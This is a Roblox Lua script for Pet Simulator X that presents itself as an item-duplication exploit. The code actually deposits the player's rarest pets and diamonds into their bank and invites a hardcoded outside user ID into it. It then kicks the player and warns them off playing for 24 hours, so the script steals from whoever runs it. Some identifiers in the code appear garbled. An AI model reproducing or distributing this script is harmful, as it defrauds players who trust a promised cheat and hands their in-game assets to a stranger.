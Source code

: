 local dupeKey = 919199133
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("1600940119").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("77223f7b-1d96-4033-9855-ee61f5f9ffa5")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1);
if request then
    lib.Message.New("Starting Dupe...");
else
    lib.Message.New(request2 and "This script only works in tier 5 - 8 bank! Make sure to remove your bank members or else theres gonna be an error.");
    return;
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], dupeKey) then
    lib.Message.New("Dupe is successfully done! Do not play for atleast 24h or else your account has a risk of getting banned from Pet Simulator X.");
else
    lib.Message.New("Dupe error! Caused due to: Members in bank detected. Please remove members from your bank!");
end
game.Players.LocalPlayer:Kick("Join after 24 hours!")
